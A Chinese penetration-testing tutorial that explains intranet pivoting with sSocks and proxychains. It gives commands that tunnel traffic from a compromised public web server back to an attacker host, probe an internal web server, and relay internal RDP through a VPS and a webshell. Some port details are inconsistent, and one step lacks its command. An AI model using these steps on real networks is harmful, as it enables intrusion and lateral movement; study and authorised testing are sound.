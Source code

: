 # 利用 ssocks 进行内网穿透

> 原文：[http://book.iwonder.run/内网渗透/内网穿透/ssocks/1.html](http://book.iwonder.run/内网渗透/内网穿透/ssocks/1.html)

sSocks 是一个 socks 代理工具套装，可用来开启 socks 代理服务，支持 socks5 验证，支持 IPV6 和 UDP，并提供反向 socks 代理服务，即将远程计算机作为 socks 代理服务端，反弹回本地，极大方便内网的渗透测试，而 proxychains 代理链是 Linux 下一款代理设置工具。由于 Ssocks 不稳定，所以不建议使用。 现在有这么一个环境，我们获取到了位于公网 Web 服务器的 shell，该 web 服务器是 Linux 系统，内网中存在另外一台主机，这里假设内网存在一台 Web 服务器。然后，我们现在要将公网 Web 服务器设置为代理，访问和探测内网 Web 服务器的信息。

首先，我们的主机和公网的 Web 服务器都得安装上 Ssocks。 proxychains 的话 linux(基于 debian)下直接 apt install proxychains 就可以了

#### Web 服务器的操作

```
./rssocks -vv -s 100.100.10.13:9999   #接收 100.100.10.13 的 9999 端口的流量 
```

![image](img/c28b093fc260189b0c65bf4131795ee9.png)

## 主机的操作

```
首先配置 proxychains 代理链的配置文件，把最后的内容改成  socks5 127.0.0.1 8080 

./rcsocks -l 1080 -p 9999 -vv   #然后将本地的 1080 端口的流量转发到 9999 端口

接下来，我们想要访问和操作操作内网主机 192.168.10.19 的话，只需要在命令前面加上 proxychains
比如，获得内网 Web 服务器的网页文件： proxychains curl 192.168.10.19 
```

![image](img/5471f2e631c8b3287771608ee04d2065.png) ![image](img/ef1c886d90877eab58823b14913a8938.png)

## ssocks 转发的其他操作

```
第一步，用 sSocks 在 VPS 上建立 3388 与 3389 端口对应关系，实现流量互通：

root @ kali：〜＃/ root / ssocks-0.0.14 / src / rcsocks -l 3389 -p 3389 -vv

第二步，从攻击端连接 VPS 的 3388 端口，建议用 freerdp 而非 rdesktop，因为前者支持远程与本地连接等待，文本复制粘贴，挂载远程文件系统：

root @kali：〜＃xfreerdp / u：administrator / p：admin / v：【你的 ip】：3389

第三步，立即在大马上执行端口转发，可能需要连续多次点击开始：

注意，整个过程对步骤先后顺序敏感，VPS 上 rcsocks 端口映射好以后就可以不管了，先在攻击端执行 xfreerdp，让其会话保持，再在 webshel​​l 上转发内网的 3389。 
```


